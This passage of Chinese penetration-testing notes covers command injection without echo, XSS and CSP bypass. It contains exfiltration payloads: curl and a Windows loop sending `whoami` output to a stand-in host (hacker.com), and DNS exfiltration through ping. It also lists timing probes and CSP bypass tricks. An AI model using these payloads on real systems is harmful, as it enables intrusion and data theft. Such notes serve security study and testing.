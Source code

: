    支持这种形式的命令拼接执行。

   (2). 通配符

   (3). 借用已有文件中的字符

3. 无回显

   (1). HTTP回显

   ```
   linux: curl ip/`whoami`
   windows: for /F %x in (`echo `hello`) do start http://hacker.com/log/%x
   ```

   (2). DNS

   ```
   linux:ping -nc `whoami`.example.com
   windows: <1> 计算机名 
   for /F "delims:\" %i in ('whoami') do ping -n 1 %i.example.com
   ```

   (3). 时间盲注

   ```
   windows: ping -n 5 127.0.0.1
   linux: sleep
   ```

   (4)写入文件

#### 三 小技巧

在字符串拼接的过程中 `\`可以拼接上下一行的字符串

linux下的"*"相当于 ，将dir出来的每个文件名当作命令来执行。

## 0x06 XSS注入

当payload 在标签属性等地方中时，触发事件前，浏览器已经对payload进行了一次编码，所以才能合理的绕过。

#### CSP绕过

1. 文件上传+XSS（引用自己上传上去的文件来进行注入

2. 利用JSONP命令来进行绕过

3. 预加载

   ```
   <link rel="prefetch" href="">普通
   <link rel="dns-prefetch" href=""> DNS
   ```

4. 页面跳转

   location.href

## 0x07 文件上传
